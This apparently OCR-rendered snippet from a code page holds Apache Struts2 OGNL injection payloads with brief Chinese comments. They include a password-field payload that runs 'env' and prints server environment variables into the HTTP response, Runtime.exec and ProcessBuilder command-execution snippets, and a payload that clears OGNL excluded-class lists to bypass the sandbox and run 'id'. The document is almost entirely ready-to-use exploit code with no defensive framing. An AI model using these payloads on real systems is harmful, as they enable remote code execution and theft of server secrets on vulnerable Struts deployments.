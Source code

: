 ```
password=%{#a=(new java.lang.ProcessBuilder(new java.lang.String[]{"env"})).redirectErrorStream(true).start(),#b=#a.getInputStream(),#c=new java.io.InputStreamReader(#b),#d=new java.io.BufferedReader(#c),#e=new char[50000],#d.read(#e),#f=#context.get("com.opensymphony.xwork2.dispatcher.HttpServletResponse"),#f.getWriter().println(new java.lang.String(#e)),#f.getWriter().flush(),#f.getWriter().close()}&username=1




//获取context里面的变量
 #user
 #user.name

//使用runtime执行系统命令
@java.lang.Runtime@getRuntime().exec("calc")


//使用processbuilder执行系统命令
(new java.lang.ProcessBuilder(new java.lang.String[]{"calc"})).start()

//获取当前路径
@java.lang.System@getProperty("user.dir")
```

```
#{4+4}

%{(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#_memberAccess?(#_memberAccess=#dm):((#container=#context['com.opensymphony.xwork2.ActionContext.container']).(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.getExcludedPackageNames().clear()).(#ognlUtil.getExcludedClasses().clear()).(#context.setMemberAccess(#dm)))).(#q=@org.apache.commons.io.IOUtils@toString(@java.lang.Runtime@getRuntime().exec('id').getInputStream())).(#q)}
```

